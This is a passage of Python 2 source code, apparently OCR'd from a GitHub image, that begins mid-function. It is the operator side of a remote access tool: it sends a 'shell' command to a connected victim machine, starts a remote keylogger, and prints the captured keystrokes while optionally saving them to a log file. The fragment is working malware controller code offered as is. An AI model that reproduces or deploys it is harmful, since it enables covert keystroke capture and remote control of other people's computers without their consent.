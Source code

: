                     break
            elif soks=='1':
                try:
                    client.send('shell')
                except:
                    print (Back.BLUE+"\nSession Closed\n")
                    return False
                    break
                else:
                    licen_item=2
                    break
        elif soks=='99':
            print
            break
        else:
            print ("\nInvalid ID\n")
    if licen_item==1:
        try:
            save_file=raw_input('\nSave Logs?[y,n]')
        except:
            pass
        licen_lf=0
        if save_file in ['Y','y','yes','YES','Yes']:
            print ("\nSave -> logs_file.txt")
            file_logs=open('logs_file.txt','a')
            file_logs.write('\n----------------------\n')
            file_logs.close()
            licen_lf=1
        client.send('y')
        print ('For Stop Keylogger ---> [Ctrl + C]')
        print ("\nSTART Keylogger")
        print ("---------------")
        while True:
            try:
                while True:
                    client.send('n')
                    event_=client.recv(1024)
                    if event_=='null':
                        break
                    else:
                        if 'PID' in event_:
                            print (event_.replace('null',''))
                            if licen_lf==1:
                                file_logs=open('logs_file.txt','a')
                                file_logs.write('\n'+event_.replace('null','')+' ')
                                file_logs.close()
                        else:
                            if event_.replace('null','')!='':
                                print (event_.replace('null',''))
                                if licen_lf==1:
                                    file_logs=open('logs_file.txt','a')
                                    file_logs.write(event_.replace('null','')+' ')
                                    file_logs.close()
            except socket.error:
                print (Back.BLUE+'\nSesssin Closed\n')
                return False
                break
            except:
                print ('\n\nSTOP Keylogger\n')
                client.send('not')
                return True
                break
        if licen_lf==1:
            file_logs.close()